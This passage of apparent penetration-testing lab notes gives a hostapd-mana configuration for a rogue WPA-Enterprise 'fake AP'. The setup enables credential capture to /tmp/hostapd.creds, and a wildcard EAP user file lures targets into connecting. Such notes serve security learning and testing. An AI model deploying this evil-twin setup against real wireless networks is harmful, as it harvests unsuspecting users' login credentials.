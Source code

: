 ```shell
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key

# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1
mana_credout=/tmp/hostapd.creds
mana_eapsuccess=1
mana_eaptls=1
```

- Example:
![[Pasted image 20231015183514.png]]

Lastly, I created an "/etc/hostapd-mana/mana.eap_user" file to increase the likelihood of targets being able to connect to my fake AP.

- Configuration File: ``/etc/hostapd-mana/mana.eap_user``
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

- This format of the "hostapd.eap_user" file is as follows.
	- The first column indicates a specific user by username or, in the event of wildcard character (\*), any user. It can contain a domain name as well.
	- The second column contains the protocols allowed for the specific users and authentication phase.
	- The third one is optional and is used for the password when a specific user is mentioned.
	- The fourth one (indicated with "[2]"), indicates that the settings on this line are for phase 2 authentication.

- Example:
![[Pasted image 20231015184204.png]]
